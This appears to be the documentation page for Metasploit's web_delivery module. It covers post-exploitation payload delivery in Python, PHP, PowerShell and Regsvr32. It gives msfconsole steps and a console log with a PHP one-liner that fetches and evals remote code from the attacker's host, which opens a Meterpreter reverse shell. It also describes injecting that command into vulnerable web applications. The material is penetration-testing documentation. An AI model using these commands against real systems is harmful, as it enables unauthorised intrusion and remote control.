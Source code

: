 As a web server, the web_delivery module provides a stealthy way to deliver a payload during post exploitation because the payload does not touch the disk.

Currently, web_delivery supports three different languages for delivery: Python, PHP, and
Powershell. You should be able to tell which one you can use based on the target environment
you are in.

For example, if you gained access through a PHP application, it's safe to assume you can use PHP. If you're in a Windows server, such as Windows Server 2008, then it's probably safe to say the target supports Powershell.

## Verification Steps

To be able to use the web_delivery module, you must gain access to the target machine first, with the ability to execute either the Python, or PHP, or Powershell interpreter.

At that point, you would use the web_delivery module like in the following example:

1. Start msfconsole
2. Run: ```use exploit/multi/script/web_delivery```
3. Run: ```set target 1``` (1 is PHP. You can use ```show targets``` to see other options)
4. Run: ```set PAYLOAD php/meterpreter/reverse_tcp``` (You can do ```show payloads``` to see what options are suitable for the target)
5. Run: ```set LHOST IP``` (The IP the payload should connect back to)
6. Do: ```run```
7. At this point, a handler is up for that payload, and the module should instruct you to execute a command.
8. Copy the command. Depending on your pentesting scenario, you can either inject the
   command and get code execution, or run it from the target's shell and get a session:

```
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started reverse TCP handler on 172.16.23.1:4444
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/z5inGkwCCQiz9
[*] Local IP: http://10.6.0.86:8080/z5inGkwCCQiz9
[*] Server started.
[*] Run the following command on the target machine:
php -d allow_url_fopen=true -r "eval(file_get_contents('http://172.16.23.1:8080/z5inGkwCCQiz9'));"
[*] Delivering Payload
[*] Sending stage (33684 bytes) to 172.16.23.134
[*] Meterpreter session 1 opened (172.16.23.1:4444 -> 172.16.23.134:41684) at 2016-03-02 11:41:34 -0600
```

## Targets

**Python**

Python is a fairly popular language, especially on Unix-based systems. By default, it has come with Ubuntu Linux since 8.04, as well as Debian, and Mac OS X since 10.3.

**PHP**

PHP is a fairly popular language for web servers, especially Apache.

**Powershell/Windows**

Powershell is a popular language for newer Windows systems. Windows 7 and Windows Server 2008 R2
are the first Windows versions to come with Powershell by default. Older Windows systems such as XP
don't come with it by default, but it is still possible to see it installed on a corporate network.

**Regsvr32/Windows**

A scriptlet is a component for the Web. They are a standard feature of Internet Explorer 4.0. As designed, Scriptlets combine the benefits of component programming with Dynamic HTML and script. The consequences of this combination, however, transcend the Web. Regsvr32.exe can register a scriptlet, and execute the code.


## Scenarios

**Against a compromised web application**

web_delivery would work nicely for a web application with a command execution vulnerability.

One way to approach this would be:

1. Start exploit/multi/script/web_delivery
2. Use [Burp Suite](https://portswigger.net/burp/) to intercept the HTTP/HTTPS request, place the command in the parameter that results in arbitrary code execution.
3. Hopefully the modified HTTP/HTTPS request is successful, and you should get a session.

**Shell upgrade**

web_delivery is also useful to upgrade a shell type payload to a Meterpreter one.

Here's how that can be done:

1. Start exploit/multi/script/web_delivery that generates/
2. In msfconsole, interact with the shell, and copy/paste the command.
3. You should get a Meterpreter session.
